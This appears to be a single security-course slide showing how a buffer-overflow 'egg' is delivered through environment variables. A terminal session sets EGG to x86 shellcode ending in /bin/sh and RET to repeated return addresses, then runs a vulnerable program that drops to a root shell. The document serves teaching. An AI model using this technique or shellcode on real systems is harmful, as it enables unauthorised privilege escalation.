

# Delivering the “Egg” Through the Environment
% ./create_env_egg
% env
	USER=vigna
EGG=[…binary garbage]ë­^‰v1ÀˆF‰FÍ€1Û‰Ø@Í€èÜÿÿÿ/bin/sh
MAIL=/var/spool/mail/vigna
INPUTRC=/etc/inputrc
RET=öÿ¿öÿ¿öÿ¿[… repeated many times…]¿öÿ¿¿öÿ
BASH_ENV=/home/vigna/.bashrc
LANG=en_US
DISPLAY=:0
% ./vulnerable_small $RET
#